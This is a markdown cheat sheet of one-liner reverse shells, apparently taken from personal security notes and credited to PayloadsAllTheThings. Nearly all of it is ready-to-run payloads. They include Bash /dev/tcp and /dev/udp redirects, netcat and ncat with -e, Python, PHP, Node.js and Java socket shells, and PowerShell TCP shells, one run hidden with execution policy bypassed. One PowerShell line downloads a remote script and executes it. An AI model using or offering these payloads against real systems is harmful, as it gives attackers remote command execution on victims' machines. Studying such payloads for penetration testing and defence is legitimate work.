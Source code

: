 # One-liner Reverse Shell

## How to solve the problem of multiple quotes in a single command while designing a payload?

* 
## UDP Reverse shells

#### Bash UDP

```text
Victim:
sh -i >& /dev/udp/127.0.0.1/4242 0>&1

Listener:
nc -u -lvp 4242
```

## Bash/Linux

* shell script : `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`
* Awk : `awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null`
* Ncat :
  *  `ncat 127.0.0.1 4444 -e /bin/bash` 
  * `ncat --udp 127.0.0.1 4444 -e /bin/bash`
* Python : 
  * `/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`
  * `/usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("",));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
* Netcat :
  * `nc -e /bin/bash 10.0.0.1 1234`
  * `nc -c /bin/sh 10.0.0.1 1234`

## PHP

* `<?php echo shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/1234 0>&1'");?>`
* `php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");`

## Javascript

```text
var spawn = require('child_process').spawn;
var net = require('net');
var reconnect = require('reconnect');

reconnect(function (stream) {
    var ps = spawn('bash', [ '-i' ]);
    stream.pipe(ps.stdin);
    ps.stdout.pipe(stream, { end: false });
    ps.stderr.pipe(stream, { end: false });
    ps.on('exit', function () { stream.end() });
}).connect(5500, '192.168.60.124');
```

## Powershell

```text
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```

```text
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```text
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Java

```text
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## Windows Reverse shell using powershell

```text
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

![](../../.gitbook/assets/image%20%2810%29.png)

Ref : [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Cyber security -&gt; Security bits -&gt; Reverse shells

